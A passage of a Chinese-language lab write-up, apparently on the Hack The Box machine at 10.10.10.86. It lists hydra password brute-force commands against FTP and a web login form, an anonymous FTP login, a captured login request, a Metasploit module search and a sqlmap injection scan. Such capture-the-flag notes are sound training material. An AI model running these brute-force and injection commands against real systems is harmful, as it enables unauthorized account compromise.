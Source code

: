 ```
hydra -l root -P /usr/share/wordlists/long-pass-rockyou.txt ftp://10.10.10.86

trying2:检查ftp服务版本漏洞
msfconsole
search type:auxiliary ftp

trying3:匿名用户登陆
ftp 10.10.10.86
anonymous

ftp获得了一个dab.jpg，貌似没什么用

hydra -l dab -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.86
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-19-04/3.PNG)
ftp可读不可写。

## 80

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-19-04/2.PNG)

根据数据包，可以用hydra爆破
```
POST /login HTTP/1.1

Host: 10.10.10.86

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Referer: http://10.10.10.86/login

Connection: close

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

username=000&password=999&submit=Login
```
```
hydra -L /usr/share/wordlists/linux-user.txt -P /usr/share/wordlists/370-pass.txt 10.10.10.86 http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:Error"

hydra -l dab -P /usr/share/wordlists/500-worst-passwords.txt 10.10.10.86 http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:Error"

hydra -L rockyou.txt -P rockyou.txt 10.10.10.86 http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:Error"

sqlmap -r post.txt --dbs --level 5
```
没有任何关于web口令的进展。
